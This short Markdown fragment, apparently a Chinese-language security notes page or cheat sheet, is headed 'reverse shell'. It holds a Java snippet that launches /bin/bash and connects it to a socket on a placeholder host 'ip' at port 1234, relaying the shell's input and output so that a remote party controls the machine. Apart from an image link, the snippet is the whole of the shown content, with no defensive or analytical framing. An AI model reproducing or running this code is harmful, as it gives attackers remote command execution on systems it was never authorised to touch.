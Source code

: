 ![image-20240328151726668](attachments/image-20240328151726668.png)

### 反弹 shell

```
String host = "ip";
int port = 1234;
String cmd = "/bin/bash";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
} catch (Exception e) {
}
}
p.destroy();
s.close();
```
